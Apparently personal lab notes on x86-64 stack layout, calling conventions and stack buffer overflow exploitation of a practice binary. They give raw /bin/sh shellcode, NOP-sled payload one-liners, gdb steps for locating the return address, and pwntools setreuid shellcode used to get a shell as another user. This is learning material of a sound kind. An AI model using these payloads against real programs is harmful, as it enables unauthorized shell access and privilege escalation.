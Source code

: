 User stack - Info required to run program. Stack grows downwards
Run time Heap - Dynamically assigned memory

rsp - stack pointer

push - adds value to stack and decrements rsp

pop - reads value and removes from stack by incrementing rsp

Values still remain just no longer part of stack by change in rsp

## Assembly
[[Assembly]]
- Functions are called using callq
- Once the function is finished executing, it will call the return instruction(retq).
	- This instruction will pop the value of the return address of the stack, deallocate the stack frame for the add function, change the instruction pointer to the value of the return address, change the stack pointer(rsp) to the top of the stack and change the frame pointer(rbp) to the stack frame of calc.
- Note: rax is a special register that stores the return values of the functions(if any).   
-   rax is caller saved
-   rdi, rsi, rdx, rcx r8 and r9 are called saved(and they are usually arguments for functions)
-   r10, r11 are caller saved
-   rbx, r12, r13, r14 are callee saved 
-   rbp is also callee saved(and can be optionally used as a frame pointer)
-   rsp is callee saved

## Memory address conversion
Using python
```
import struct
struct.pack('<I', 0x0000000000500567)
```

Using pwntools in python3
```
import pwn
pwn.p32(0x0000000000400567)
```

## Open up a shell

Shell code is 30 long:
```
\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05
```

![[Pasted image 20220601120836.png]]

NOP instruction (No Operation Instruction) \x90
![[Pasted image 20220601121102.png]]

```
python -c “print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)”
```

Using this format would be something like this for this challenge:  

```
python -c “print('\x90' * 30 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + '\x41' * 60 + '\xef\xbe\xad\xde') | ./program_name”
```

### Buffer Overflow Example
The offset will look like this : buffer(140 bytes) + Alignment bytes (?) + rbp (8 bytes).

Find overflow number:
	run $(python -c "print('A' * 140)")
	At 158:
	Program received signal SIGSEGV, Segmentation fault.
	0x0000414141414141 in ?? ()
	At 159:
	Program received signal SIGSEGV, Segmentation fault.
	0x0000000000400563 in copy_arg ()


40 length shell code That has an exit call:

```
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
```

90 + 40 + 22 = 152
NOP sled + shell code + JUNK chars

followed by return address 6 chars

Locate required address:
```
run $(python -c "print('\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41' * 22 + 'B'*6)")
```

FIND NOP sled
	x/100x $rsp-200
	Choose a memory address of NOP
	Chose address on NOP slope:
	0x7fffffffe298
	\x98\xe2\xff\xff\xff\x7f

Get the shell:

```
./buffer-overflow $(python -c "print('\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41' * 22 + '\x98\xe2\xff\xff\xff\x7f')")
```

Change SUID to run as other user:
cat /etc/passwd
user2:x:1002:1002::/home/user2:/bin/bash

setuid does not change real uid
need to setreuid()
setreuid(0) for root
setreuid(1002,1002) for user 2

Use pwntools to generate shellcode:
	$pwn shellcraft -f d amd64.linux.setreuid 1002
	(-f d sets format to escaped)

```
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

Put in front of original payload and recalculate NOP (removed from end to avoid address change)

final payload

```
./buffer-overflow $(python -c "print('\x90' * 90 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41' * 8 + '\x98\xe2\xff\xff\xff\x7f')")
```